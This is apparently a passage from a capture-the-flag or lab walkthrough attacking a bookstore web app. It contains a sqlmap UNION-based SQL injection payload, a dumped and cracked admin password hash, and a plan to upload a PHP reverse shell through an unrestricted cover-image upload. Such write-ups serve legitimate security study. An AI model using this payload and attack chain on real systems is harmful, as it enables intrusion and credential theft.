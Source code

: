 ```
    Payload: bookisbn=-5080' UNION ALL SELECT NULL,NULL,CONCAT(0x71707a7871,0x59626b6e544b464b4c655250796a466c6e716b6f706f68696b7154676d6f485975546b7a656c7175,0x71767a7071),NULL,NULL,NULL,NULL-- -
---
[SNIP]
```

**Cracking admin hash with sqlmap:**

```
Database: store                                                                                                    
Table: admin
[1 entry]
+-------+--------------------------------------------------+
| name  | pass                                             |
+-------+--------------------------------------------------+
| admin | d033e22ae348aeb5660fc2140aec35850c4da997 (admin) |
+-------+--------------------------------------------------+
```

**Logging in as admin:**

*   at /store/admin.php with credentials admin:admin

*   As admin you can upload images for book covers - it doesn't seem to limit you to just images

*   Will try to upload a php reverse shell

![](/assets/images/fb3/fb3.png)   
